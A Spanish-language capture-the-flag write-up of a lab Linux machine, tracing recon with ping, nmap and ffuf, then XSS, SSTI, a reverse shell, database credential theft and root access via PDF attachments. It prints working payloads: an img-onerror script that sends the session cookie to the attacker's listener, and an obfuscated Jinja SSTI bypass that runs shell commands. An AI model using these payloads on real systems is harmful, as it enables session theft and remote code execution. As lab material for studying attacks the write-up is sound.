 #Linux #medium #tecnicas 
### Ping
```python
ping -c 1 10.10.11.12
PING 10.10.11.12 (10.10.11.12) 56(84) bytes of data.
64 bytes from 10.10.11.12: icmp_seq=1 ttl=63 time=71.4 ms

--- 10.10.11.12 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 71.439/71.439/71.439/0.000 ms
```

### TTL 63 = Linux

### nmap
```python
sudo nmap -p- --open -sC -sV --min-rate 5000 -Pn 10.10.11.12 -oN Scan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-08 22:36 EDT
Nmap scan report for 10.10.11.12
Host is up (0.071s latency).
Not shown: 65506 closed tcp ports (reset), 27 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 2c:f9:07:77:e3:f1:3a:36:db:f2:3b:94:e3:b7:cf:b2 (ECDSA)
|_  256 4a:91:9f:f2:74:c0:41:81:52:4d:f1:ff:2d:01:78:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.78 seconds
```

### Enumeración del puerto 80 (http)

![[Pasted image 20240408224546.png]]

![[Pasted image 20240408224608.png]]

### Fuzzing con ffuz
el dominio `/quote` no esta en los directorios de la pagina asi que vamos a investigar  
![[Pasted image 20240408224309.png]]

`quote`
![[Pasted image 20240408224935.png]]

### BurpSuite
vamos a realizar una petición y la interceptamos con burpsuite
![[Pasted image 20240408225150.png]]

`Service`
tenemos 3 service que se estan enviando al servidor. vamos a intentar validarlos enviando una petición a un servidor que tendremos a la escucha
```python
<img+src='http://10.10.14.27/test.png'>
```
![[Pasted image 20240408231842.png]]

### Python3 server
obtenemos la petición que hemos realizado por lo cual podemos decir que esta web es vulnerable a `XSS`
![[Pasted image 20240408232124.png]]

### Cookie
vamos a usar este payload para capturar la cookie de session. 
```python
<img src=x onerror=this.src='http://10.10.14.27/?c='+document.cookie> # URLencode
```
![[Pasted image 20240408234641.png]]

`cookie`
![[Pasted image 20240408234800.png]]

agregamos la cookie en el `cookie-editor`
![[cookie.png]]

### dashboad

![[Pasted image 20240408235954.png]]

`Generate Invoice`
![[Pasted image 20240408235845.png]]

`codigo ID 0255314324`
obtenemos un ID Invoice 
![[Pasted image 20240408235903.png]]

`Generator QR`
ingresamos el ID que hemos obtenido anteriormente
![[Pasted image 20240409000254.png]]

### SSTI (Server-Side Template Injection)
realizamos una prueba y es posible ver el resultado dentro del nombre de archivo generado para el código QR. Eso confirma que se está produciendo SSTI
![[Pasted image 20240409001851.png]]

`Burpsuite`
interceptamos la petición con burpsuite y podemos confirmar que se esta ejecutando correctamente el resultado de {{7 * 7}} a partir de aqui solo necesitamos conseguir hacer Bypass para poder ejecutar codigo
![[Pasted image 20240409002315.png]]

### Bypass SSTI 
usando estos parametros podemos hacer un bypass del servicio que esta corriendo por detras el cual hemos logrado ejecutar con éxito el comando id usaremos esto para ejecutar una reverse shell
```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
![[Pasted image 20240409003615.png]]

### reverse shell
usamos una reverse shell u la URL encodeamos 
![[Pasted image 20240409004321.png]]

### Netcat 
estaremos a la escucha con Netcat por el puerto que hemos especificado y obtenemos la shell
![[Pasted image 20240409004434.png]]

`www-data`

![[Pasted image 20240409011025.png]]
### database
podemos ver las credenciales de usuario
![[Pasted image 20240409005450.png]]

### mysql
podemos listar la base de datos
![[Pasted image 20240409010111.png]]

`mysql`
listando la tabla de usuarios podemos listar credenciales en texto plano
![[Pasted image 20240409010333.png]]

### Crackstation
tenemos la contraseña de consuela
![[Pasted image 20240409010748.png]]

### ssh
tenemos conexión via ssh
![[Pasted image 20240409010946.png]]

### Escalada de privilegios
con un poco de pensamiento lateral podemos leer la root sin escalar privilegios
![[Pasted image 20240409011222.png]]

con este comando vamos a agregar el archivo `root.txt` como un attachment al archivo pdf que ya existe en la maquina y luego lo descargamos para analizarlo en local
![[Pasted image 20240409011943.png]]

### pdfdetach 
de esta manera podemos extraer los archivos que se han agregado al pdf y efectivamente tenemos la root
![[Pasted image 20240409014202.png]]

### id_rsa
aplicando la misma metodología podemos agregar como attachment la id_rsa del usuario root al archivo pdf para luego extraerla
![[Pasted image 20240409020633.png]]

### Escalada
![[Pasted image 20240409020834.png]]
### WE ARE ROOT